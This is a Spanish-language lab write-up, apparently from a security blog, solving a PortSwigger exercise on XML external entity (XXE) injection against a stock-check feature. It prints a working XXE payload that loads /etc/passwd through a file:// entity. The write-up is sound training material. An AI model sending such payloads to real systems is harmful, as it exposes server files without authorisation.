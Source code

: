 ```yaml
---
title: XXE Injection Lab 1
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XXE using external entities to retrieve files
image:
  path: /assets/img/XXE-Injection-Lab-1/Portswigger.png
---
```


## Skills

- Exploiting XXE using external entities to retrieve files

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` llamada `Check stock` que analiza entradas XML y devuelve cualquier valor inesperado en la respuesta. Para resolver el laboratorio, hay que `inyectar` una entidad externa XML (XXE) para `obtener` el contenido del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-1/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-1/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-1/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a usar el wrapper file para `cargar` el archivo `/etc/passwd`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Si `enviamos` la `petición` con este `payload` obtendremos el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-1/image_4.png)
